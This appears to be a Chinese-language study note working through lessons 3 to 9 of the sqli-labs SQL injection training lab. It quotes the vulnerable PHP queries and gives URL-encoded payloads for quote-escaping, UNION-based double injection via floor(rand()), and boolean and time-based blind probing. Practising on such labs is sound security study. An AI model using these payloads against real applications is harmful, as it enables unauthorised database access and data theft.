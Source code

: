 - ** less 3 GET - Error based - single quotes with twist - string**</br>
	php中代码 $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1"; 用括号和单引号进行了过滤</br>
	思路：消除括号</br>
	?id=%27)or%20username%3D%27admin%27or%20(%27  成功


- ** less 4  GET - Error based - Double Quotes - String ** </br>
	php中代码</br>
	$id = '"' . $id . '"';</br>
	$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";</br>
	?id=%27)or%20username%3D%27admin%27or%20(%27 成功</br>

    关于前四个less的一些心得：
    	1.找错误：
    		尝试着单引号，双引号，括号等特殊字符注入，如果有报错信息，多半就是该符号出问题
    		例：?id="
    				 返回You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '""") LIMIT 0,1' at line 1
    			可以看出输入所在位置为（“输入”）
    	2.注入利用
    		通过union来执行自己想要的sql

- ** less 5  GET - Double Injection - Single Quotes - String ** </br>
双查询注入（双查询：select嵌套select）</br>
	输入?id=‘ 失败， use near 1  由此猜测为单引号</br>
	?id='%20or%20username%3D%27admin 成功 </br>
	但是sql执行结果前端并没有进行输出，怎么利用？</br>

	查询资料后发现：Double injection 双注入。一些研究人员发现，使用group by子句结合rand()函数以及像count（\*）这样的聚合函数，在SQL查询时会出现错误，这种错误是随机产生的，这就产生了双重查询注入。</br>
	发现多查询几次会爆出duplicate entry的错误，且将我们需要的信息都爆出来了。（正常结果未返回显示，所以通过错误信息去获得我们想要的信息，有随机性，需要重复多次）</br>
	count() 计数</br>
	rand() 随机</br>
	group by 分组</br>
	floor() 向下取整，舍弃小数部分</br>

	?id=-1%27%20union%20select%201%2c(select%20count(\*)%20from%20information_schema.schemata%20group%20by%20concat(version()%2cfloor(rand(0)\*2)))%2c3%20%23 成功</br>
	Duplicate entry '5.7.23-0ubuntu0.16.04.11' for key ''
	其中version(）是我们希望执行的函数，可以换成其它

- ** less 6 GET - Double Injection - Double Quotes - String ** </br>

	?id=-1%22%20union%20select%201%2c(select%20count(\*)%20from%		20information_schema.schemata%20group%20by%20concat(version()%2cfloor(rand(0)\*2)))%2c3%20%23 成功

- ** less 7 GET - Dump into outfile - String ** </br>
	文件导入限制条件多，未成功

- ** less 8 GET - Blind - Boolian Based - Single Quotes ** </br>
	?id=-1%27or%201%3d1%23 </br>
	利用二分与返回结果的正确与否，来猜测验证数据库内容

- ** less 9 GET - Blind - Time Based - Single Quotes ** </br>
	?id=1%27%20and%20if(ascii(substr(database(),1,1))>116,%200,%20sleep(5))%20%23 </br>
	因为在这正确或者错误都是返回的"you are in" 所以不能区分 </br>
  ![youarein](../images/youarein.png)
	使用时间延迟，例子为判断数据库名字第一个字是否为s(ascii码为115)，要进行多次尝试
